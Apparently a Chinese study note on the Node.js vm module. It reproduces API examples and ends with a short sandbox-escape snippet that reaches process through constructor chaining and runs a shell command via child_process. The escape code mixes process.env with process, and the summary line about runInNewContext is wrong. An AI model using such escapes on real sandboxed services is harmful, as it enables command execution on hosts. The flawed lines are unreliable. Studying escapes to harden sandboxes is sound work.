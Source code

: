 ## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

## 参考文章
